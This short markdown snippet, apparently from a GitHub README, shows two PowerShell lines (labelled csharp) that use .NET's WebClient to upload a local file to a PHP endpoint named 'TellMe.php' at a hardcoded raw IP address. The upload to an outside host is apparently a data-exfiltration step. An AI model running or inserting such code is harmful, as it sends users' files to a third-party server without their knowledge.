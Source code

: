 ## 🎈 Uploading File
This one is done via PowerShell
```csharp
$wc = New-Object System.Net.WebClient;
$url = "http://194.233.71.142/ll/TellMe.php?type=file"
```
Declare .NET Framework's WebClient.
```csharp
 $resp = $wc.UploadFile($url, "file to upload")
```

Goodluck 💕